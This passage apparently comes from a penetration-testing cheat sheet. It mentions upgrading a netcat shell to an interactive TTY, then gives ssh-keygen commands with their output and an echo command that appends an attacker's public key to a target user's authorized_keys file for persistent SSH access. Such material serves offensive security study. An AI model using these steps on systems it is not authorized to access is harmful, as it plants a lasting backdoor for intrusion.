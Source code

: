 ```
- The end result is a fully interactive TTY with all the features we’d expect (tab-complete, history, job control, etc) all over a netcat connection
```



## ssh-key
##### If we have some user shell or access, probably it would be a good idea to generate a new ssh private-public key pair using ssh-keygen
Code:

```
ssh-keygen
```

```
Generating public/private rsa key pair.
Enter file in which to save the key (/home/bitvijays/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/bitvijays/.ssh/id_rsa.
Your public key has been saved in /home/bitvijays/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:JbdAhAIPl8qm/kCANJcpggeVoZqWnFRvVbxu2u9zc5U bitvijays@Kali-Home
The key's randomart image is:
+---[RSA 2048]----+
|o==*+. +=.       |
|=o**+ o. .       |
|=+...+  o +      |
|=.* .    * .     |
|oO      S .     .|
|+        o     E.|
|..      +       .|
| ..    . . . o . |
|  ..      ooo o  |
+----[SHA256]-----+
```
Copy/ Append the public part to /home/user/.ssh/authorized_keys
```
cat /home/bitvijays/.ssh/id_rsa.pub
```

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+tbCpnhU5qQm6typWI52FCin6NDYP0hmQFfag2kDwMDIS0j1ke/kuxfqfQKlbva9eo6IUaCrjIuAqbsZTsVjyFfjzo/hDKycR1M5/115Jx4q4v48a7BNnuUqi +qzUFjldFzfuTp6XM1n+Y1B6tQJJc9WruOFUNK2EX6pmOIkJ8QPTvMXYaxwol84MRb89V9vHCbfDrbWFhoA6hzeQVtI01ThMpQQqGv5LS+rI0GVlZnT8cUye0uiGZW7ek9DdcTEDtMUv1Y99zivk4FJmQWLzxplP5dUJ1NH5rm6YBH8CoQHLextWc36Ih18xsyzW8qK4Bfl4sOtESHT5/3PlkQHN bitvijays@Kali-Home" >> /home/user/.ssh/authorized_keys
```
Now, ssh to the box using that user.

```
- ssh user@hostname -i id_rsa
```
